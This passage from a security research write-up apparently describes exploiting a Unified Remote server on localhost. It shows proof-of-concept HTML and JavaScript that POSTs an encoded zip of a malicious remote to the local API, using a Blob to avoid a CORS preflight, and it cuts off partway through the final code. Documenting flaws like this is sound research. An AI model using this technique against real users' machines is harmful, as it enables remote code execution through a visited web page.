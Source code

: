 # <u>Beware of the Blob</u>

There was one obvious hurdle to still overcome, the zip file upload was handled as an `application/octet-stream` content-type and without more permissive CORS headers my exploit attempts may be limited or not work.

I continued regardless and produced myself a simple XHR JavaScript containing HTML file.

```html
<html>
<body>
<p>Hi There!</p>
<script>

  let base64zip = "<base64zip>";
  let binary = atob(base64zip);

  let xhr = new XMLHttpRequest();
  xhr.open("POST","http://localhost:9510/system/remote/add?filename=PoC.zip",false);
  xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
  xhr.send(binary);
</script>
</body>
</html>
```

Upon attempting to open the HTML page the request was made however it returned a ZIP file processing error. So clearly an issue with the encoding and Content-Type. However, in order to satisfy a CORS pre-flight free exploit, I would need to conform to one of the following content-types:  `text/plain`, `application/x-www-form-urlencoded`, and `multipart/form-data`.

![Oops...](../assets/img/unified-remote-zip-error.png)

This was frankly the hardest part, finding a way to send a full zip binary over a post method that breaks or treat specific characters uniquely to others without the correct encoding applied. Fortunately, an interesting interface presents opportunity, a Blob array buffer. An immutable raw binary data stream that could hopefully preserve the encoding during exploit payload transmission.

```javascript
  let array = [];
  for (let i = 0; i < binary.length; i++) {
    array.push(binary.charCodeAt(i));
  }

  let blob = new Blob([new Uint8Array(array)], { type: "application/octet-stream" });
```

Plugging this into the previous exploit payload resulted in the below Proof of Concept.

```html
<html>
<body>
<p>Hi There!</p>
<script>

  let base64zip = "<base64zip>";
  let binary = atob(base64zip);
  let array = [];
  for (let i = 0; i < binary.length; i++) {
    array.push(binary.charCodeAt(i));
  }

  let blob = new Blob([new Uint8Array(array)], { type: "application/octet-stream" });
```